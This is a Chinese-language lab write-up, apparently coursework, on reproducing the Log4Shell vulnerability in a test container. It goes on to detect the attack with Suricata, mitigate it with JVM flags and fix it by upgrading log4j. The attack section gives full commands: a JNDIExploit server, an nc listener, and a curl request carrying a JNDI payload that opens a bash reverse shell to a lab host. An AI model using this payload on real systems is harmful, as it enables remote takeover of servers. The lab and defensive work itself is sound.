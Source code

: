# `log4j2` 漏洞复现与缓解修复

## 漏洞攻击

### 检测漏洞存在性

- 使用 `java decompiler` 反编译 `demo.jar` 后可观察到受影响组建的版本号为 `2.14.0` ,确实处于受影响版本范围内，同时可以定位到漏洞代码
 ![alt text](decompile-demo.jar.png)

### 验证漏洞可利用性

 - 选择使用 `PoC` 手动测试
 按照课程使用 `POST` 请求发现报错方法不被支持，改用 `GET` 请求
 ![alt text](test-vulnerability-available.png)
 刷新dnslog记录，成功验证漏洞可利用
 ![alt text](dnslog.png)

### 评估漏洞利用效果

- 工具下载
由于课件中的国内镜像下载地址无法访问，选择先从 `github` 下载再通过 `scp` 传输到虚拟机中
![alt text](tool-download.jpg)
传输完成后在虚拟机中计算校验和，确认无误
![alt text](check-sum.png)

- 【手动】测试 `reverse shell` 的过程
直接在容器中创建反弹 `shell`
![alt text](test-ReverseShell.png)
可以看到这个 `shell` 的输入、输出和错误输出重定向到指定 `IP` 地址（192.168.56.108）的指定端口（7777）,并且成功 `get flag`
![alt text](test-ReverseShell-result.png)

- 开始漏洞利用
    - 在攻击者主机上启动工具
    ```bash
    java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.56.108
    ```
    - 在攻击者主机上提前运行监听程序，等待反弹连接
    ```bash
    nc -l -p 7777
    ```
    - 投放攻击代码:由于 `POST` 方法不被支持，改用 `GET` 方法
    ```bash
     curl "http://192.168.56.107:62564/hello?payload=%24%7Bjndi%3Aldap%3A%2F%2F192.168.56.108%3A1389%2FTomcatBypass%2FCommand%2FBase64%2F$(echo -n 'bash -i >& /dev/tcp/192.168.56.108/7777 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')%7D"
    ```
    ![alt text](attack.jpg)
    - 攻击者主机成功 `getshell`
    ![alt text](getshell.jpg)


## 漏洞利用检测

- 启动 `suricata` 检测容器
```bash
 docker run -d --name suricata --net=host -e SURICATA_OPTIONS="-i eth1" jasonish/suricata:6.0.4
```
![alt text](run-suricata.png)

- 更新 `suricata 规则`，更新完成测试完规则之后会自动重启服务
```bash
docker exec -it suricata suricata-update -f
```
![alt text](update-suricata-rules.png)

- 监视 `suricata` 日志
```bash
docker exec -it suricata tail -f /var/log/suricata/fast.log
```

- 重复前述漏洞攻击实验,分析日志输出
![alt text](suricata-log-contents.png)
1. **03/23/2025 - 12:16:00.698506记录**
    - **时间**：2025年3月23日12点16分00秒698506微秒。
    - **规则**：`[1:2022973:1] ET POLICY Possible Kali Linux hostname in DHCP Request Packet`，表示检测到DHCP请求数据包中可能包含Kali Linux的主机名。
    - **分类**：`Potential Corporate Privacy Violation`，即潜在的企业隐私侵犯。
    - **优先级**：1（最高优先级）。
    - **流量信息**：源IP `192.168.56.107`，源端口68（DHCP客户端端口），目的IP `192.168.56.100`，目的端口67（DHCP服务器端口），协议为UDP。这表明在网络中的`192.168.56.107`主机通过DHCP请求获取IP地址时，其主机名可能暗示它是Kali Linux系统。Kali Linux常用于渗透测试等安全工作，在企业网络中未经授权使用可能存在安全风险。
2. **03/23/2025 - 12:17:54.026260及后续多条类似记录**
    - **时间**：从12点17分54秒开始，有多条相近时间的记录。
    - **规则**：`[1:2034818:2] ET POLICY Serialized Java Object returned via LDAPv3 Response`，意味着检测到通过LDAPv3响应返回了序列化的Java对象。
    - **分类**：`Potentially Bad Traffic`，即可能的恶意流量。
    - **优先级**：2（较高优先级）。
    - **流量信息**：源IP `192.168.56.108`，源端口1389（LDAP服务默认端口），目的IP `192.168.56.107`，不同的目的端口（如51870、51878等），协议为TCP。这显示`192.168.56.108`的LDAP服务器向`192.168.56.107`的客户端发送了序列化的Java对象。在许多情况下，序列化的Java对象可被用于利用Java应用程序中的漏洞，比如Log4j漏洞就涉及通过JNDI（Java Naming and Directory Interface ）利用LDAP服务加载恶意的Java对象，进而执行任意代码，所以这类流量被视为可疑。 


## 漏洞缓解以及效果验证

### **1. 停止当前运行的容器**
```bash
docker stop happy_curran
```
![alt text](stop-container.jpg)

### **2. 重新启动容器并添加 JVM 参数并验证参数是否生效**
关闭日志消息解析功能：直接禁用 ${jndi:...} 等恶意字符串的解析。
```bash
docker run -d \
  -p 60443:8080 \  # 保持原端口映射
  -e "JAVA_TOOL_OPTIONS=-Dlog4j2.formatMsgNoLookups=true" \ 
  --name log4j-patched \  # 可选：指定新容器名称
  vulfocus/log4j2-cve-2021-44228:latest
```
![alt text](restart-container.jpg)


### **3. 漏洞缓解验证**
- 重复攻击步骤，攻击机已无法成功 `getshell`
![alt text](attack-again.jpg)
![alt text](getshell-fail.jpg)

- 使用 `PoC` 手动测试验证漏洞可用性
![alt text](check-availability.jpg)

### **4.缓解绕过**

**仍待续作**

## 漏洞修复

### **方法1：增加参数配置（临时方案）**
由于 `Log4j `提供了一个名为 `JNDI（Java Naming and Directory Interface）` 的功能，允许从远程服务器中动态加载类或资源。 在日志消息或参数中，`Log4j` 支持解析形如 `${}` 的表达式，并允许通过 `JNDI` 加载外部数据。因此，禁用 `JNDI` 查找功能 ，完全禁用 `JNDI` 加载 ， 禁用 `RMI` 和 `LDAP` 加载远程类 ， 禁用 `DNS` 缓存，防止基于 `DNS` 的利用 ， 在配置文件中明确禁用 `JNDI` 相关组件，应该能够暂时修复漏洞
```bash
# 启动一个名为"log4shell"的后台容器，使用漏洞靶场镜像
docker run -d --name log4shell \

  # 将宿主机的22220端口映射到容器8080端口（暴露Web服务）
  -p 22220:8080 \

  # 使用预置的Log4j2漏洞环境镜像（CVE-2021-44228）
  vulfocus/log4j2-rce-2021-12-09:1 \

  # 启动Java应用时添加安全参数：
  java \
    # 禁用Log4j的MessageLookup功能（缓解RCE漏洞）
    -Dlog4j2.formatMsgNoLookups=true \
    
    # 禁止RMI协议加载远程代码库（阻断JNDI注入攻击路径）
    -Dcom.sun.jndi.rmi.object.trustURLCodebase=false \
    
    # 禁止LDAP协议加载远程代码库（双重防护）
    -Dcom.sun.jndi.ldap.object.trustURLCodebase=false \
    
    # 设置DNS正解析缓存时间为0秒（立即刷新解析记录）
    -Dsun.net.inetaddr.ttl=0 \
    
    # 设置DNS负解析缓存时间为0秒（防止缓存攻击）
    -Dsun.net.inetaddr.negative.ttl=0 \

    # 运行漏洞演示应用（模拟存在漏洞的服务）
    -jar /demo/demo.jar
```
![alt text](start-container.png)
**效果验证**
重复攻击步骤，已无法成功 `getshell`
![alt text](result1.png)

### **方法2：更新log4j2到2.17.1版本（长期方案）**
1. 由于容器中缺少更新必需工具，选择将 `demo.jar` 移入本机进行更新
![alt text](delete-old-version-log4j.jpg)
2. 下载新版本 `log4j` 
```bash
 sudo wget https://repo1.maven.org/maven2/org/apache/logging/log4j/log4j-core/2.17.1/log4j-core-2.17.1.jar
  sudo wget https://repo1.maven.org/maven2/org/apache/logging/log4j/log4j-api/2.17.1/log4j-api-2.17.1.jar
```
![alt text](download-new-version.png)
3. 将替换完成后的 `demo.jar` 重新打包，传回容器
```bash
jar cfm0 ../demo-patched.jar ./META-INF/MANIFEST.MF -C . .
docker cp ./demo-patched.jar hungry_dhawan:/demo
```
![alt text](repack-demo.png)
![alt text](cp-demo-to-container.png)

4. 重启容器
```bash
docker restart crazy_gates
```
![alt text](restart-container-sec.png)
5. 重复攻击过程，验证修复效果
![alt text](fix-sec.jpg)















